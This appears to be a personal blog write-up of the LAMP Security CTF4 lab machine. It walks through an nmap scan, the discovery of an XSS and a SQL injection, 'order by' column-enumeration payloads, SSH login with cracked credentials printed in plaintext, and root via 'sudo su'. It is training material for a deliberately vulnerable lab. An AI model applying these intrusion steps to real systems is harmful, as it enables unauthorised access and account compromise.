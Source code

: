 ```yaml
---
layout: post
title:	"Lamp Security CTF4 Writeup"
date:	2017-12-20 21:00:00
categories:
    - blog
tags:
    - vulnhub
    - root-me
---
```


Hi everyone. This is my solution for LAMP security CTF4. This CTF is very easy, you can download it from [Vulnhub.com](https://vulnhub.com) or play online on [root-me.org](https://root-me.org). I did it on root-me, therefore my target was ctf07.root-me.org.

Ok let’s start, i ran nmap to see which services were open (usually I run a second scan with “-p 1-65535” parameter to identify all the ports).

~~~
Syrion:~ syrion$ sudo nmap -sT -sV -O ctf07.root-me.org
Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2016-10-07 21:19 CEST
Nmap scan report for ctf07.root-me.org (212.83.142.84)
Host is up (0.040s latency).
Not shown: 727 closed ports, 270 filtered ports
PORT STATE SERVICE VERSION
22/tcp open tcpwrapped
25/tcp open tcpwrapped
80/tcp open tcpwrapped
Device type: general purpose|WAP
Running (JUST GUESSING): OpenBSD 4.X (88%), Apple embedded (87%), FreeBSD 6.X (87%)
OS CPE: cpe:/o:openbsd:openbsd:4.0 cpe:/h:apple:airport_extreme cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: OpenBSD 4.0 (88%), Apple AirPort Extreme WAP (87%), FreeBSD 6.2-RELEASE (87%), FreeBSD 6.3-RELEASE (87%), OpenBSD 4.3 (87%)
No exact OS matches for host (test conditions non-ideal).
~~~

At this point I used netcat to verify the services on the three open ports. As excepted:

* SSH on 22
* SENDMAIL on 25
* HTTP on 80

In the meantime,  I ran DirBuster, and I noticed this file:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img1.png)

It was the database’s structure:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img2.png)

This was the website on port 80:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img3.png)

I noticed this xss on the search bar:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img4.png)

Then I found an SQL Injection on the blog:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img5.png)

At this pont I started to enumerate the select statement’s parameters by using this payloads:

* id=1 order by 1 —
* id=1 order by 2 —

They were five!

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img6.png)

I needed to know which parameters were visible:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img7.png)

And then I performed the full SQL Inection (i knew the database structure because of db.sql):

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img8.png)

Ok let’s use [crackstation](https://crackstation.net/) to crack the hash. I tried to login as dstevens via ssh with the following credentials:

~~~
username dstevens
password: ilike2surf
~~~

And I succeeded:

~~~
Syrion:~ syrion$ ssh dstevens@ctf07.root-me.org
The authenticity of host ‘ctf07.root-me.org (212.83.142.84)’ can’t be established.
RSA key fingerprint is SHA256:NDWh6/414mOsW4P7K6ICc5R67PrX87ADMFUx9DK9ftk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added ‘ctf07.root-me.org,212.83.142.84’ (RSA) to the list of known hosts.
BSD SSH 4.1
dstevens@ctf07.root-me.org’s password:
Last login: Mon Mar  9 07:48:18 2009 from 192.168.0.50
[dstevens@ctf ~]$
~~~

I tried to run “sudo su” and yes… it worked (LOL):

~~~
[dstevens@ctf ~]$ sudo su
Password:
[root@ctf dstevens]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=user_u:system_r:unconfined_t:SystemLow-SystemHigh
[root@ctf dstevens]# cat /passwd
8cfd7e1715e7957021b5aa23f7839131
~~~

The privilege escalation was very very…very easy 😛

Bye bye!

